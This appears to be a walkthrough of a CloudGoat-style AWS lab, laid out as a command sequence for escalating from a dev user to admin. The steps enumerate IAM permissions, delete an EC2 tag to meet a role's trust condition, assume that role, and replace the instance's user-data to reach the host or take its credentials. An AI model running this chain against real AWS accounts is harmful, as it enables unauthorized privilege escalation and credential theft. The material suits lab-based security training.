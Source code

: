 ### Enumerate the user and roles we have access to from the start cg_dev_user
```
# Gather all roles and users permissions
iamactionhunter --collect --profile cg_dev_user

# Check for Write actions that the dev_user has
iamactionhunter --config write_actions --account <account_id> --user cg_dev_user

# Check if the dev_user has any interesting IAM permissions
iamactionhunter --config dangerous_iam --account <account_id> --user cg_dev_user

# See what write permissions the role you can assume has
iamactionhunter --config write_actions --account <account_id> --role cg_ec2_management_role

# Check back on the dev_user see if you can do anything with tags
iamactionhunter --query 'ec2:*tag*' --account <account_id> --user cg_dev_user

# Note you can delete tags allowing you to satisfy the condition set for the ec2_management_role
```

### Use the dev_user to enumerate ec2 instances
```
# Get instances that have the tag referenced in the condition
aws ec2 describe-instances --region us-west-2 --profile cg_dev_user --filter "Name=tag:Name,Values=cg_admin_ec2" 
```



### Delete the tag using the dev_user on the EC2 to satisfy the condition for the cg_ec2_management_role
```
aws ec2 delete-tags --region us-west-2 --profile cg_dev_user --resources <instance_id> --tags Key=Name
```

### Assume the cg_ec2_management_role
```
aws sts assume-role --role-arn arn:aws:iam::<account_id>:role/cg_ec2_management_role --role-session-name blah --profile cg_dev_user
```

### Use the cg_ec2_management_role to stop the instance
```
aws ec2 stop-instances --region us-west-2 --profile cg_ec2_management_role --instance-ids <instance_id>
```

### Use the cg_ec2_management_role to modify the userdata to access the EC2 or exfiltrate credentials from it (https://hackingthe.cloud/aws/exploitation/local-priv-esc-mod-instance-att/)
```
aws ec2 modify-instance-attribute --region us-west-2 --profile cg_ec2_management_role --instance-id <instance_id> --user-data file://userdata.txt
```

### Use the cg_ec2_management_role to start the instance
```
aws ec2 start-instances --region us-west-2 --profile cg_ec2_management_role --instance-ids <instance_id>
```

### Access the EC2 or exfiltrate credentials and gain admin privileges